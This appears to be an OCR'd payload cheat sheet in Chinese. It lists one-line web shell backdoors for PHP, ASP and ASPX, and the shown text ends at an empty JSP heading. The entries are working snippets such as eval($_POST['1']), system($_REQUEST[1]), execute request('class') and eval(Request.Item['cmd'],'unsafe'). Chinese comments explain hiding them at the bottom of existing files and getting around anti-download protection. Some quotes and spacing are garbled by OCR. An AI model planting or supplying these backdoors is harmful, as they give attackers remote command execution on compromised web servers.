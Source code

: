 ```
<?if(isset($_POST['1'])){eval($_POST['1']);}?><?php system ($_REQUEST[1]);?> 
加了判断的PHP一句话，与上面的ASP一句话相同道理，也是可以插在任何PHP文件 的最底部不会出错！

<%execute request(“class”)%><%'<% loop <%:%><%'<% loop <%:%><%execute request (“class”)%><%execute request(“class”)'<% loop <%:%> 
无防下载表，有防下载表可尝试插入以下语句突破的一句话 

<%eval(request(“1″)):response.end%> 备份专用


```



### aspx

```
<% @Page Language="Jscript"%><%eval(Request.Item["cmd"],"unsafe");%>
```

```
##aspx
<scriptrunat=”server”>WebAdmin2Y.x.y aaaaa =newWebAdmin2Y.x.y (“add6bb58e139be10″);</script> 

<script language="C#"runat="server">WebAdmin2Y.x.y a=new WebAdmin2Y.x.y("add6bb58e139be10")</script> 

<%eval request(chr(35))%>  不用双引号的一句话。

```



### asp

```
<%eval request("x")%>
```

```
##ASP
<%eval(Request.Item["r00ts"],”unsafe”);%>

<%IfRequest(“1″)<>”"ThenExecuteGlobal(Request(“1″))%> 

<%execute(request(“1″))%> 

<scriptrunat=server>execute request(“1″)</script> 不用'<,>‘的asp一句话 


```



### jsp
